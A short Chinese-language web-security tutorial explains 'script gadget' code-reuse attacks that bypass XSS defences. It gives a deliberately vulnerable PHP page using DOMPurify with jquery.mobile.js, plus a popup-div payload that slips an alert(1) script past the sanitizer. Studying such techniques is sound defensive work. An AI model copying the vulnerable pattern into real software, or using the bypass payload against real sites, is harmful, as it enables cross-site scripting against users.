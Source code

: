 Bypass Via Script Gadgets
================================

简介
--------------------------------

一些网站会使用白名单或者一些基于DOM的防御方式，对这些方式，有一种被称为 ``Code Reuse`` 的攻击方式可以绕过。该方式和二进制攻防中的Gadget相似，使用目标中的合法代码来达到绕过防御措施的目的。在论文 ``Code-Reuse Attacks for the Web: Breaking Cross-Site Scripting Mitigations via Script Gadgets`` 中有该方法的具体描述。

portswigger的一篇博文也表达了类似的想法 ``https://portswigger.net/blog/abusing-javascript-frameworks-to-bypass-xss-mitigations``。

下面有一个简单的例子，这个例子使用了 ``DOMPurify`` 来加固，但是因为引入了 ``jquery.mobile.js`` 导致可以被攻击。



例子
--------------------------------
::

    // index.php
    <?php

    $msg = $_GET['message'];
    $msg = str_replace("\n", "", $msg);
    $msg = base64_encode($msg);

    ?>

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Preview</title>
        <script type="text/javascript" src="purify.js"></script>
        <script type="text/javascript" src="jquery.js"></script>
        <script type="text/javascript" src="jquery.mobile.js"></script>
    </head>
    <body>
        
        <script type="text/javascript">
        var d= atob('<?php echo $msg; ?>');
        var cleanvar = DOMPurify.sanitize(d);
        document.write(cleanvar);
        </script>

    </body>
    </html>


::

    // payload
    <div data-role=popup id='-->
    &lt;script&gt;alert(1)&lt;/script&gt;'>
    </div>
